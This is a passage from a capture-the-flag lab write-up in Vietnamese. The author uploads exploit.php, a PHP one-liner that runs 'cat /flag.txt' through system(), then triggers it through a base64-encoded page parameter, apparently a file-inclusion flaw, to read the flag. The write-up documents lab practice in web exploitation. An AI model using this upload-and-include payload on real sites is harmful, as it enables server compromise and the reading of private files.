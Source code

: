 Em tải lên lại file `exploit.php` với nội dung sau để có thể đọc file `flag.txt` chứa flag:

```php
<?php system("cat /flag.txt"); ?>
```

Tải lên file thành công:

![10](images/lab/10.png)

Và cuối cùng gửi request tới `/index.php?page=Li4vc3RvcmFnZS9kYjU3MDc0NS02M2FmLTQzMjQtODRjMC1lMmVlYWExZmFjZDMvZXhwbG9pdC5waHA=` em đã thấy được flag:

![11](images/lab/11.png)
